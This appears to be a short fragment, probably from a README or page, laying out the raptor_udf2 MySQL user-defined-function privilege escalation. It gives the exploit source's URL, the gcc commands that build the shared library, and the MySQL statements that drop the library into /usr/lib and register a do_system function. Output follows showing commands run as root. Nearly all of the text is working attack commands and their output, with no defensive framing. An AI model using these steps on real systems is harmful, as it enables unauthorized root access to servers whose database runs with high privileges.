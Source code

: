 	https://0xdeadbeef.info/exploits/raptor_udf2.c
	$ gcc -g -c raptor_udf2.c
	$ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
	$ mysql -u root -p
	mysql> use mysql;
	mysql> create table foo(line blob);
	mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
	mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
	mysql> create function do_system returns integer soname 'raptor_udf2.so';
	mysql> select * from mysql.func;
| name  |ret   |dl   |type   |
| ------------ | ------------ | ------------ | ------------ |
| do_system  | 2  | raptor_udf2.so  |  function |

	mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
	mysql> \! sh
	sh-2.05b$ cat /tmp/out
	uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)